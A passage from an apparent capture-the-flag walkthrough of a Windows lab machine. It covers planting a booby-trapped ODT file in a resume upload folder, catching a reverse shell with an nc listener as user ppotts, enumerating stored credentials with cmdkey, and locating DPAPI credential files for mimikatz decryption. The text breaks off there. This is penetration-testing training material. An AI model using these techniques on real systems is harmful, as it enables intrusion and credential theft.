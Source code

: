 ```markdown
File present.odt has been created !
```
Start a listener and copy the file `present.odt` into `c:\xampp\htdocs\internal\applications`, which is the folder where the uploaded resumes land.<br>
<br>
Note: for this I used the `web_account` shell, since the user `tshark` does not have write permissions in the `applications` folder. Alternatively, you can forward internal port to Kali and copy the file using the resume upload application.<br>
<br>
Wait a while until someone opens the file. Shortly after a reverse shell is received on the listener for user `ppotts`
```markdown
> rlwrap -cAr nc -lvp 9001
listening on [any] 9001 ...
connect to [10.10.xxx.xxx] from office.htb [10.10.11.3] 62704

Microsoft Windows [Version 10.0.20348.2322]
(c) Microsoft Corporation. All rights reserved.

> whoami
office\ppotts
```
Enumerate stored credentials.
```markdown
> cmdkey /list

Currently stored credentials:

    Target: LegacyGeneric:target=MyTarget
    Type: Generic 
    User: MyUser
    
    Target: Domain:interactive=OFFICE\hhogan
    Type: Domain Password
    User: OFFICE\hhogan
```
It seems credential for user `hhogan` is stored in the vault; however, you will not be able to use it with `runas` since it is protected by DPAPI.<br>
<br>
Before trying to decrypt the DPAPI secret, read this:<br>
https://github.com/gentilkiwi/mimikatz/wiki/howto-~-scheduled-tasks-credentials<br>
https://github.com/gentilkiwi/mimikatz/wiki/howto-~-credential-manager-saved-credentials<br>
<br>
Now that we understand what is happening, let's follow GentilKiwi's procedure. First, look for the Windows credential files in the file system.
```markdown
> dir /a %appdata%\Microsoft\Credentials

 Volume in drive C has no label.
 Volume Serial Number is C626-9388

 Directory of C:\Users\PPotts\AppData\Roaming\Microsoft\Credentials

02/19/2024  03:26 PM    <DIR>          .
01/18/2024  09:34 AM    <DIR>          ..
05/09/2023  01:08 PM               358 18A1927A997A794B65E9849883AC3F3E
05/09/2023  03:03 PM               398 84F1CAEEBF466550F4967858F9353FB4
02/19/2024  03:22 PM               374 E76CCA3670CD9BB98DF79E0A8D176F1E
02/19/2024  03:26 PM               374 FCC3ECA2B60DDA9204044C22EEC7CC48
               4 File(s)          1,504 bytes
               2 Dir(s)   4,610,813,952 bytes free
```
And the masterkey files.
```markdown
```
